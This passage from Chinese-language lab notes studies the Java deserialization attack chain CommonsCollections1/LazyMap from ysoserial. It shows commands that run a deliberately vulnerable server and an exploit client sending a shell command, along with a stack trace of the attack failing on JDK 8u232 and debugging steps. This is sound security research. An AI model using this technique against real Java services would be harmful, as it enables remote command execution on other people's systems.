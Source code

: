 但恶意命令已被执行。

参:

https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections1.java

从源码可以看出"ysoserial/CommonsCollections1"对应LazyMap利用链。用JD-GUI看
ysoserial-0.0.6-SNAPSHOT-all.jar可能更方便。

注意，CommonsCollections1用的是exec(String)，不是exec(String[])，这无谓地
增加了一些障碍，为了执行复杂命令，需要更多奇技淫巧，而本来并不需要的。参看
"Java执行外部命令"的讨论。感兴趣者可以搜一下"java.util.StringTokenizer"、
"Bash Brace Expansion"。

8.3.9) 8u232为什么失败

执行服务端:

java \
-cp "commons-collections-3.1.jar:." \
VulnerableServer 192.168.65.23 1414

执行客户端:

java \
-cp "commons-collections-3.1.jar:." \
EvilClientWithLazyMap 192.168.65.23 1414 "/bin/touch /tmp/scz_is_here"

未能得手，服务端抛出异常:

Exception in thread "main" java.lang.annotation.IncompleteAnnotationException: java.lang.Override missing element entrySet
        at sun.reflect.annotation.AnnotationInvocationHandler.invoke(AnnotationInvocationHandler.java:81)
        at com.sun.proxy.$Proxy0.entrySet(Unknown Source)
        at sun.reflect.annotation.AnnotationInvocationHandler.readObject(AnnotationInvocationHandler.java:452)
        at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
        at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
        at java.lang.reflect.Method.invoke(Method.java:498)
        at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
        at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2177)
        at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2068)
        at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1572)
        at java.io.ObjectInputStream.readObject(ObjectInputStream.java:430)
        at VulnerableServer.main(VulnerableServer.java:22)

调试VulnerableServer:

java -agentlib:jdwp=transport=dt_socket,address=192.168.65.23:8005,server=y,suspend=y \
-cp "commons-collections-3.1.jar:." \
VulnerableServer 192.168.65.23 1414

jdb -connect com.sun.jdi.SocketAttach:hostname=192.168.65.23,port=8005

没有深究8u232失败的根本原因，只是看了看invoke()、readObject()的变化。
